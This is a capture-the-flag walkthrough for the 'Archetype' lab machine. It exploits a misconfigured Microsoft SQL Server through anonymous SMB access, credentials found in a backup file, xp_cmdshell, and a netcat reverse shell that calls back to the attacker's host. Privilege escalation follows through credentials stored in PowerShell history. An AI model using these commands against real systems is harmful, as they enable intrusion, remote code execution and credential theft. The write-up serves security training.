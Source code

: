 # Archetype

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  Protocols  
  MSSQL  
  SMB  
  Powershell  
  Reconnaissance  
  Remote Code Execution  
  Clear Text Credentials  
  Information Disclosure  
  Anon/Guest Access  

#### Description
  Work on a Windows machine to exploit a misconfiguration in MSSQL server. 

#### **Initial Enumeration**
  135/tcp msrpc        Microsoft RPC
  139/tcp netbios-ssn  Microsoft Windows netbios-ssn
  445/tcp microsoft-ds Microsoft Server 2019 Standard 17763
  1433/tcp ms-sql-s    Microsoft SQL Server 2017

#### **SMB Enumeration**
  From the scripts that ran on nmap, we see that SMB and MSSQL are running. To find shares on the smb client we can send:
  ```
    smbclient -N -L \\\\{target_ip}\\

    -N : no password
    -L : allow you to look what services available on a server
  ```
  The following shares have '$' at the end indicating they require admin privileges or equivalent: ADMIN, C, IPC. The <code>backups</code> share does not require such privileges. So we can login by appending the share name to the end of the our command. 
  ```
    smb client -N \\\\{target_ip}\backups
  ```
  There is a file present in backups with a password and user_id for a SQL client. Now we need to figure out a way to login to MSSQL using these credentials on the target machine. 

#### **Impacket**
  Usually in the directory /impacket/examples/ we can find python scripts for several purposes. The one we will use for Microsoft SQL is <code>mssqlclient.py</code>.

  To connect to MSSQL using Impacket:
  ```
    python3 mssqlclient.py {username}@{target_ip} -windows-auth
  ```
  This will prompt a password that is also supplied in that document we extracted. 

#### **Inside MSSQL**
  <code>xp_cmdshell</code> is an extended stored procedure of MSSQL to spawn a Windows command shell, to check if it is activated we can write a query:

  ``` SQL
    EXEC xp_cmdshell 'net user';
  ```
  ![xp_cmdshell not activated](./assets/xp_cmdshell_inactive.png)
  In order to activate it:
  ``` SQL
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    sp_configure;
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
  ```
  ![xp_cmdshell working](./assets/xp_cmdshell_working.png)
  With <code>xp_cmdshell</code> working, we can try to establish a reverse shell. 

#### **Establishing Reverse Shell**
  To create a reverse shell environment:   
  &emsp;1. Start a python http server on port 80
  ```
    sudo python3 -m http.server 80
  ```

  &emsp;2. Start an ncat server on port 443
  ```
    sudo nc -lvnp 443
  ```

  At this point, as the current user on the SQL server we find that we do not have sufficient permissions to upload files. So we need to find a directory we have the permissions to upload to. In this case, it is the <code>Downloads</code> folder.

  &emsp;3. Execute Powershell payload over MSSQL 
  ``` SQL
    xp_cmdshell "powershell -c cd {path}\Downloads; wget http://{local_ip}:{port}/nc64.exe -outfile nc64.exe"
  ```
  *For this command, if you are using ports other than 80, be sure to specify in the wget link*

  To bind cmd.exe through netcat:
  ``` sql
    xp_cmdshell "powershell -c cd {path}\Downloads; .\nc64.exe -e cmd.exe {local_ip} 443"
  ```
  The reverse shell should appear on the nc terminal window.

#### **Privilege Escalation**
  With access to target machine through the reverse shell, we can use wget. To use <code>winPEAS</code>:
  ``` powershell
    wget http://{local_ip}/winPEASx64.exe -outfile winPEASx64.exe
  ```
  ![privilege escalation winPEAS output](./assets/priv_esc_output.png)
  Apparently, the <code>SeImpersonatePrivilege</code> is interesting since it is vulnerable to something called the *juicy potato exploit*. However, the easiest way is not this. First, it is to check the terminal history, or in this case, the Powershell history. Which is located at <code>C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\<code>.

  Confirming there is a console history file, we can read it to find that there are credentials for administrator in it. 